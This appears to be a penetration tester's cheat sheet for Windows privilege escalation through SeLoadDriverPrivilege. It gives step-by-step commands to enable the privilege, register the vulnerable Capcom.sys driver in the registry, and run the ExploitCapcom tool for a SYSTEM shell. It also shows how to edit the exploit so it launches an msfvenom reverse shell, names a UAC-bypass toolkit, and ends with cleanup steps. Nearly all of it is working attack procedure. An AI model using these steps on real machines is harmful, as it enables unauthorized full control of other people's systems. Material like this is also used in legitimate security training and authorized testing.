 - If SeLoadDriverPrivilege is invisible from an unelevated context, we will need to bypass UAC.

**UAC Bypasses
- https://github.com/hfiref0x/UACME


**Confirming Privileges
```
whoami /priv
```

**Enable SeLoadDriverPrivilege
https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp
```
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
```
- Download it locally and edit it, pasting over the includes below

**Compile with cl.exe
```
cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp
```

**Add Reference to Driver
- https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys
```
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"
reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
```

**Verify Driver is not loaded
- http://www.nirsoft.net/utils/driverview.html
```
.\DriverView.exe /stext drivers.txt
cat drivers.txt | Select-String -pattern Capcom
```

**Verify Privilege is Enabled
```
EnableSeLoadDriverPrivilege.exe
```

**Verify Capcom Driver is Listed
```
.\DriverView.exe /stext drivers.txt
cat drivers.txt | Select-String -pattern Capcom
```

**Use ExploitCapcom Tool to Escalate Privileges
- https://github.com/tandasat/ExploitCapcom
- Compile it with Visual Studio
```
.\ExploitCapcom.exe
```

## Alternate Exploitation - No GUI
- Modify ExploitCapcom.cpp code before compiling.
- Edit line 292 and replace "C:\\Windows\\system32\\cmd.exe" with a reverse shell binary created with msfvenom, for example: c:\ProgramData\revshell.exe
- TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
- Set up listender for payload, then execute ExploitCapcom.exe
```
// Launches a command shell process
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```


## Automating the Steps

**Automating with EopLoadDriver
- https://github.com/TarlogicSecurity/EoPLoadDriver/
```
EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys
```
- Run ExploitCapcom.exe to pop a SYSTEM shell

## Clean-up

**Removing Registry Key
```
reg delete HKCU\System\CurrentControlSet\Capcom
```

**Note: not exploitable after Windows 10 Version 1803
